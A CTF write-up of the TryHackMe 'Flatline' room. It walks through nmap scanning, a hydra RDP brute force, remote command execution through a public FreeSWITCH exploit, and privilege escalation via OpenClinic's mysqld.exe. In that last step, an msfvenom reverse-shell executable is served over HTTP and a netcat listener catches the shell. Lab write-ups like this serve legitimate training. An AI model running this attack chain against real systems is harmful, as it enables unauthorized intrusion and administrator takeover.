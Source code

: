## Flatline

Room link: https://tryhackme.com/room/flatline

# Scanning
I ran an full nmap scan with ping disabled after it didnt allow me to run a scan. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -p- -Pn [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-11 07:54 EST
Nmap scan report for [Remote IP]
Host is up (0.10s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
8021/tcp open  ftp-proxy

Nmap done: 1 IP address (1 host up) scanned in 253.58 seconds
```
I ran more aggressive scans on each of the ports from the full nmap scan. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A -p 3389 -Pn [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-11 07:59 EST
Nmap scan report for [Remote IP]
Host is up (0.10s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-11T12:59:24+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-03-11T12:59:26+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A -Pn -p 8021 [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-11 07:59 EST
Nmap scan report for [Remote IP]
Host is up (0.098s latency).

PORT     STATE SERVICE          VERSION
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```
I started up hydra to brute force a log in with RDP. 
```
hydra -L /home/ajread/resources/wordlists/SecLists/Usernames/Names/names.txt -P /home/ajread/resources/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt [Remote IP]rdp
```
# Enumeration 
However, it didnt work so I decided to go after the more interesting FreeSwitch service. I found a possible exploitiation with command execution (https://www.exploit-db.com/exploits/47799). I was able to connect to the service with the below command. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```
# Initial Access
I had to do some digging around. But, I eventually found the location of the ```user.txt```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "type C:\Users\Nekrotic\Desktop\user.txt"
Authenticated
Content-Type: api/response
Content-Length: 38

[REDACTED]
```
# Privilege Escalation 
Within the desktop directory of the user, there was a root.txt. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "dir C:\Users\Nekrotic\Desktop"
Authenticated
Content-Type: api/response
Content-Length: 374

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Users\Nekrotic\Desktop

09/11/2021  07:39    <DIR>          .
09/11/2021  07:39    <DIR>          ..
09/11/2021  07:39                38 root.txt
09/11/2021  07:39                38 user.txt
               2 File(s)             76 bytes
               2 Dir(s)  50,561,933,312 bytes free
```
I tried to access it but it came up with the following output. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "type C:\Users\Nekrotic\Desktop\root.txt"
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```
I navigated to the Administrator home directory and found some interesting output. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "dir C:\Users\Administrator\Desktop"
Authenticated
Content-Type: api/response
Content-Length: 449

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Users\Administrator\Desktop

09/11/2021  07:18    <DIR>          .
09/11/2021  07:18    <DIR>          ..
08/11/2021  18:24       108,048,384 FreeSWITCH-1.10.1-Release-x64.msi
08/11/2021  06:05       413,584,335 OpenClinicSetup5.194.18_32bit_full_fr_en_pt_es_nl.exe
               2 File(s)    521,632,719 bytes
               2 Dir(s)  50,513,035,264 bytes free
```
There is a local privilege escalation exploit for that version of OpenClinic (https://www.exploit-db.com/exploits/50448). I confirmed the existence and location of the vulnerable ```mysqld.exe```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "dir c:\projects\openclinic\mariadb\bin\mysqld.exe"
Authenticated
Content-Type: api/response
Content-Length: 263

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of c:\projects\openclinic\mariadb\bin

22/03/2021  23:47            26,600 mysqld.exe
               1 File(s)         26,600 bytes
               0 Dir(s)  50,526,441,472 bytes free
```
Following the local priv esc exploit, I created the payloard with msfvenom. 
```
ajread@aj-ubuntu:~/apps/metasploit-framework$ ./msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP] LPORT=9999 -f exe > /home/ajread/TryHackMe/practice/mysqld_evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
I set up a netcat listener on my local machine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
I also served up an http server using python. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ sudo python -m http.server 80
[sudo] password for ajread: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
I saw it grab the shell from my server. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ sudo python -m http.server 80
[sudo] password for ajread: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
[Remote IP] - - [14/Mar/2022 19:30:13] "GET /mysqld_evil.exe HTTP/1.1" 200 -
```
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "rename C:\projects\openclinic\mariadb\bin\mysqld_evil.exe mysqld.exe"
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```
Then, I restarted the machine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 freeswitch.py [Remote IP] "shutdown /r"
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```
And got admin access after a short reboot. 
```
C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
[REDACTED]
```